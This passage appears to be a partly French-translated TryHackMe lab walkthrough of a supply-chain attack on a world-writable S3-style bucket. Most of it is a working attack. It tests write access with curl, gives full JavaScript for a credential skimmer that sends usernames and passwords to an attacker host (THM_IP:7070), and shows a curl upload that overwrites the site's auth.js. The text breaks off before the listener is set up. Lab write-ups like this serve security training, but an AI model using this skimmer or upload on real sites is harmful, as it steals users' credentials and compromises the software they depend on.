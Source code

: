 `curl -X PUT http://cdn.tryhackme.loc:9444/libraries/test.js -d "Testing world-writeable permissions"`

En exécutant cette requête, il semble que nous obtenions un HTTP 200 OK. Nous pouvons également voir que nous avons la possibilité de télécharger ce nouveau fichier en utilisant <http://cdn.tryhackme.loc:9444/libraries/test.js>. Cela semble positif pour une attaque de la chaîne d'approvisionnement! À ce stade, il existe plusieurs façons différentes d'exploiter ce seau S3 modifiable dans le monde pour provoquer une attaque de la chaîne d'approvisionnement, mais nous allons garder les choses simples en intégrant un skimmer d'informations d'identification qui nous enverra les informations d'identification de l'utilisateur lorsqu'il cliquera sur soumettre.

Téléchargez la dépendance auth.js et modifiez le code pour ressembler à ceci:

```
//This is our shared authentication library. It includes a really cool function that will autosubmit the form when a user presses enter in the password textbox!

var input = document.getElementById('txtPassword');
input.addEventListener("keypress", function(event) {
	if (event.key == "Enter") {
		event.preventDefault();
        try {
            const oReq = new XMLHttpRequest();
            var user = document.getElementById('txtUsername').value;
            var pass = document.getElementById('txtPassword').value;
            oReq.open("GET", "http://THM_IP:7070/item?user=" + user + "&pass=" + pass);
            oReq.send();
        }
        catch(err) {
            console.log(err);
        }
		function sleep (time) {
                    return new Promise((resolve) => setTimeout(resolve, time));
                }
                sleep(5000).then(() => {
    		    document.getElementById("loginSubmit").click();
                });
	}
});
```

**Code explained**: Make sure to modify THM_IP to be the IP of your TryHackMe VPN or the AttackBox IP since we want callbacks to occur to this host. The injection is fairly simple. Once the user presses enter to submit their credentials, we make an XHR (XMLHTTPRequest) request to our host, where the username and password of the target are embedded as parameters in the request. You will notice some lines of code for the creation of a sleep function and then using said sleep function before the button is clicked. This is to ensure that the malicious XHR request has completed before the page transition occurs, otherwise a modern browser would stop the request from occurring.

Let's overwrite the existing auth.js file with our embedded skimmer:

`curl http://cdn.tryhackme.loc:9444/libraries/auth.js --upload-file auth.js`

Nous pourrions héberger un serveur entier pour recevoir les frappes, mais restons simples avec un serveur Python:
